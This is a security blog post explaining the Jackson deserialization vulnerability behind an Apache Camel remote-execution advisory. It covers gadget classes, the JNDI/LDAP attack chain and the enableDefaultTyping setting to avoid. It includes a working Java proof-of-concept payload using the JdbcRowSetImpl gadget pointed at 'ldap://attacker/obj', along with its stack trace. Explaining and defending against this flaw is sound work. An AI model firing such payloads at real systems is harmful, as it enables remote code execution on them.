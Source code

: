 ```yaml
---
layout: post
title: "Jackson deserialization exploits"
author: capitol
category: security
---
```

![serialize](/images/serialize.png)

Earlier this year there was an remote execution exploit published against 
[apache camel](http://camel.apache.org/security-advisories.data/CVE-2016-8749.txt.asc?version=2&modificationDate=1486565034000&api=v2).
 Lets look at how that vulnerability works and how to guard against it.
 
First some background, apache camel is a framework that helps with building integrations
between different components in a system. You can for example read from an jms queue 
and write to a https endpoint, very enterprise.

The exploitable part was in the jackson library that camel used to serialize/deserialize.

The vulnerability in jackson can be demonstrated with just a few lines of java code:

```java
    String json = "[\"java.util.List\", [[\"com.sun.rowset.JdbcRowSetImpl\" ,{\n" +
            "\"dataSourceName\":\n" +
            "\"ldap://attacker/obj\" ,\n" +
            "\"autoCommit\" : true\n" +
            "}]]]";

    ObjectMapper om = new ObjectMapper();
    om.enableDefaultTyping();
    Object o = om.readValue(json, List.class);
```

Running it gives the error:
```java
Exception in thread "main" com.fasterxml.jackson.databind.JsonMappingException: JdbcRowSet (anslut) JNDI kan inte anslutas
 at [Source: ["java.util.List", [["com.sun.rowset.JdbcRowSetImpl" ,{
"dataSourceName":
"ldap://attacker/obj" ,
"autoCommit" : true
}]]]; line: 4, column: 16] (through reference chain: java.util.ArrayList[0]->com.sun.rowset.JdbcRowSetImpl["autoCommit"])
	at com.fasterxml.jackson.databind.JsonMappingException.from(JsonMappingException.java:223)
	at com.fasterxml.jackson.databind.deser.SettableBeanProperty._throwAsIOE(SettableBeanProperty.java:537)
	at com.fasterxml.jackson.databind.deser.SettableBeanProperty._throwAsIOE(SettableBeanProperty.java:518)
	at com.fasterxml.jackson.databind.deser.impl.MethodProperty.deserializeAndSet(MethodProperty.java:99)
	at com.fasterxml.jackson.databind.deser.BeanDeserializer.vanillaDeserialize(BeanDeserializer.java:260)
	at com.fasterxml.jackson.databind.deser.BeanDeserializer.deserialize(BeanDeserializer.java:125)
	at com.fasterxml.jackson.databind.jsontype.impl.AsArrayTypeDeserializer._deserialize(AsArrayTypeDeserializer.java:110)
	at com.fasterxml.jackson.databind.jsontype.impl.AsArrayTypeDeserializer.deserializeTypedFromAny(AsArrayTypeDeserializer.java:68)
	at com.fasterxml.jackson.databind.deser.std.UntypedObjectDeserializer$Vanilla.deserializeWithType(UntypedObjectDeserializer.java:554)
	at com.fasterxml.jackson.databind.deser.std.CollectionDeserializer.deserialize(CollectionDeserializer.java:279)
	at com.fasterxml.jackson.databind.deser.std.CollectionDeserializer.deserialize(CollectionDeserializer.java:249)
	at com.fasterxml.jackson.databind.deser.std.CollectionDeserializer.deserialize(CollectionDeserializer.java:26)
	at com.fasterxml.jackson.databind.jsontype.impl.AsArrayTypeDeserializer._deserialize(AsArrayTypeDeserializer.java:110)
	at com.fasterxml.jackson.databind.jsontype.impl.AsArrayTypeDeserializer.deserializeTypedFromArray(AsArrayTypeDeserializer.java:50)
	at com.fasterxml.jackson.databind.deser.std.CollectionDeserializer.deserializeWithType(CollectionDeserializer.java:310)
	at com.fasterxml.jackson.databind.deser.impl.TypeWrappedDeserializer.deserialize(TypeWrappedDeserializer.java:42)
	at com.fasterxml.jackson.databind.ObjectMapper._readMapAndClose(ObjectMapper.java:3788)
	at com.fasterxml.jackson.databind.ObjectMapper.readValue(ObjectMapper.java:2779)
	at no.hackeriet.App.main(App.java:23)
Caused by: java.sql.SQLException: JdbcRowSet (anslut) JNDI kan inte anslutas
	at com.sun.rowset.JdbcRowSetImpl.connect(JdbcRowSetImpl.java:634)
	at com.sun.rowset.JdbcRowSetImpl.setAutoCommit(JdbcRowSetImpl.java:4067)
	at sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)
	at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
	at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
	at java.lang.reflect.Method.invoke(Method.java:498)
	at com.fasterxml.jackson.databind.deser.impl.MethodProperty.deserializeAndSet(MethodProperty.java:97)
	... 15 more
```

There is a type check in the readValue class, but that doesn't stop the attack
since it only checks that it's a List that we try to deserialize, and the content
of the list isn't type checked due to [type erasure](https://docs.oracle.com/javase/tutorial/java/generics/erasure.html).

The reason that jackson lets the sender specify the java classes that's the json gets deserialized to
is because of the call `om.enableDefaultTyping();`. The same functionality can also be triggered if you
have annotated a `java.lang.Object` with `@JsonTypeInfo`.

If you don't do that in your code then you are safe from this attack.

#### Gadgets

The classes that we can use to escalate an deserialization into remote code execution are called gadgets.

More modern versions of jackson have a blacklist with known dangerous classes that it refuses to deserialize
[here](https://github.com/FasterXML/jackson-databind/blob/master/src/main/java/com/fasterxml/jackson/databind/deser/BeanDeserializerFactory.java#L46).

But there is a large number of java classes out there and it's impossible to defend against all of them.

In order for a class to be a valid gadget for a jackson deserialization attack these criteria needs
to be fulfilled:

* A default constructor, i.e. a constructor without any arguments.
* A method that acts on the argument in a non-trivial way, the simplest is if you are able to 
provide a serialized java class with a function that gets called. But there is a number of other
ways, for example using jndi connections.

#### The LDAP gadget

For those that ain't that deep into the java world, a quick description of JNDI is this:
JNDI does for LDAP what JDBC does for a Database, in other words it provides an interface
 to interact with the ldap server from java.
 
How the ldap url leads to remote code execution a bit out of scope but is described [here](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE-wp.pdf).

To summarize the attack have these steps:
1. Attacker provides an absolute LDAP URL to a vulnerable JNDI lookup method.
2. Target connect's to an attacker controlled LDAP Server that returns a malicious JNDI Reference.
3. Target decodes the JNDI Reference.
4. Target fetches the Factory class from attacker-controlled server.
5. Target instantiates the Factory class.
6. Payload gets executed.
